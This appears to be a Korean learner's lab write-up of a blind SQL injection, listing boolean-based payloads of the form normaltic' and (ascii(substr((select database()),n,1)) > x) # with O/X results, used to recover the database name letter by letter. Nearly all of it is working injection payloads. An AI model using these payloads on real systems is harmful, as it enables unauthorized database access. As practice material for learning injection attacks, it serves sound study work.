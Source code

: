 
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 112) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 120) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 116) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 114) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) > 113) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 7, 1)) = 113) #**
-> O  
-> 찾은 글자: bxi xdx qxx  
-> 예측한 글자: blind sqlx  

---

1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 104) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 108) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 106) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 105) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) = 105) #**
-> O  
-> 찾은 글자: bxi xdx qxi  
-> 예측한 글자: blind sqli -> s가 대문자일 수도 있어  

---

1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 96) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 80) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 88) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 84) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 82) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 83) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) = 83) #**
-> O  
-> 찾은 글자: bxixdSqxi  
-> 예측한 글자: blindSqli  
